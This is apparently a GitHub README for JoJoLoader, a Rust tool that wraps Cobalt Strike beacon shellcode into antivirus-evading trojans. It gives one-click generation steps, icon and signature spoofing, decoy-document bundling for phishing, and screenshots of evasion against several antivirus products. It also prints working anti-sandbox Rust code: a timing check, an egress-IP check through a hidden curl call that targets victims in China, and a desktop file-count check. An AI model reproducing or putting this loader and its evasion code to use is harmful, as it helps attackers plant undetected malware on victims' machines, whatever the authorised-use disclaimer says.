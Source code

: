 ![JoJoLoader](https://github.com/Pizz33/JoJoLoader/assets/88339946/dd259365-7334-43df-aee5-2d53d39c0fa9)

# JoJoLoader

助力红队成员一键生成免杀木马，使用rust实现 (by_hyyrent)

Help Redteam members generate Evasive Anti-virus software Trojan

更新说明
---
2024/08/07 优化免杀效果：360全家桶✔ 火绒✔ def✔

![image](https://github.com/user-attachments/assets/1708a617-5d70-47d5-8fae-da0b92399f10)

开发背景
---

由于近年使用go来开发loader越来越普遍，导致杀软对go编译程序静态查杀力度增大，尤其是某数字杀软

对之前的go免杀项目千机多次优化后，发现效果仍不太理想，决定重构转投入rust的怀抱，因此有了此项目的诞生！

使用方式
---

与之前开发的千机一样，同样是支持一键化生成，生成自动替换图标签名

生成`stageless payload`

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/49ddd939-32c3-495f-8ab7-a6f649a3a138)

把 `beacon_x64.bin` （习惯使用4.7以上版本的CS，默认名称即是，其他版本自行改名）放置在当前目录下

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/294efecb-b0bf-45cc-afac-7a107cac3b14)

点击 `一键生成.bat`，等待免杀木马生成

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/6ad29be8-7a42-4348-8606-113caee887f0)

输出免杀木马在 `output` 文件夹下，随机六位数命名

其中sign标签文件为自动替换签名后的免杀木马，添加图标和签名最大化bypassQVM

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b30c675-acb4-40ae-9045-1d92afbc97b7)

钓鱼场景-释放正常文档
---

贴合实战钓鱼场景，支持正常文件释放，捆绑文档存放在 `bundle` 文件夹下

默认放置打开损坏文档，实战根据需求自行修改代码

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/4ca87739-3dfc-4a07-bda0-0cf5b0c90505)

如果不需要捆绑文件，把对应行注释即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b5b4ed6-5f7f-431c-9502-be82a31dd74b)

程序图标
---

在 static 目录下放置了四个常见图标，可修改`icon.rc`对应名称进行调用

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/9480ea64-e78f-4ce3-bda7-a2a6bc451688)

免杀效果展示
---
**360和火绒**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/b6fb7409-4560-493c-bf2e-a3198837ca70)

**360杀毒**

装了杀毒之后的360性能变强，qvm有时很玄学，如若碰到QVM情况尝试更换图标

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bfc2da65-49e7-4a97-bb83-9c0420edb034)

**defender**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f6c49329-8cd9-48d7-af33-130fa165c3ee)

**微步**

项目发布时现测试，测试结果为安全

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/1ebe6cba-b85e-4964-843a-1f54a279f591)

卡巴斯基 ESET

国外edr会扫描内存，需要对bin进行二开，单靠loader局限性很大，以下测试是基于二开的bin

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f5c66ab3-9034-49af-b01d-a7bc4bf12fc7)

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/5ce2e534-d1cb-4865-898b-6187dbf84d3d)

环境安装
---
https://www.rust-lang.org/zh-CN/tools/install

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/a1b8b73a-5545-4797-b2d3-b2605640b7a7)

下载安装相应的版本，双击运行，默认选择模式1进行安装，然后配置环境变量即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bb0a690c-1703-4b49-8b43-20b70de024a8)

如若安装后编译失败运行以下命令

```
rustup default stable-x86_64-pc-windows-msvc
```

反沙箱
---
反沙箱不是越多越好，只保留比较好用的三个，兼容绝大部分环境，并且尽量避免上传沙箱后虚拟主机上线

### 流速检测 ###

```
pub fn flow_time() {
    use std::time::{Duration, Instant};
    use std::thread::sleep;

    let start_time = Instant::now();

    sleep(Duration::from_millis(5000));

    let elapsed_time = start_time.elapsed();

    if elapsed_time.as_millis() < 5000 {
        std::process::exit(1);
    }
}
```

这个函数判断时间是否在沙箱内进行加速

### 检查出口 IP ###

```
fn ip() {
    let output = Command::new("cmd")
        .args(&["/c", "curl -s https://myip.ipip.net/"])
        .creation_flags(CREATE_NO_WINDOW)
        .output()
        .expect("Failed to execute command");

    if !output.status.success() {
        std::process::exit(1);
    }

    let body = str::from_utf8(&output.stdout).expect("Failed to parse response");

    if body.contains("中国") {
    } else {
        std::process::exit(1);
    }
}
```

这个函数通过 `curl` 命令获取出口 IP，如果不在中国则退出程序

### 检查桌面文件数量 ###

```
fn check_desktop() {
    let desktop_path = get_desktop_path().expect("无法获取桌面路径");

    let entries = match fs::read_dir(&desktop_path) {
        Ok(entries) => entries,
        Err(_) => {
            std::process::exit(1);
        }
    };

    let file_count = entries.filter_map(|entry| entry.ok()).count();

    if file_count < 10 {
        std::process::exit(1);
    } else {
    }
}

fn get_desktop_path() -> Option<PathBuf> {
    let home_dir = dirs::home_dir()?;
    #[cfg(target_os = "windows")]
    return Some(home_dir.join("Desktop"));
    None
}
```
这个函数获取桌面路径并检查文件数量是否小于 10，如果小于 10 则退出程序

声明
---
- 仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

- 使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

reference
---
代码有借鉴学习以下项目，commit当晚通宵没来得及写，现补上，另外免杀性失效自行修改代码，楼主仅提供一种思路，祝玩得开心♥

https://github.com/joaoviictorti/RustRedOps

https://github.com/xiao-zhu-zhu/RustBypassMap
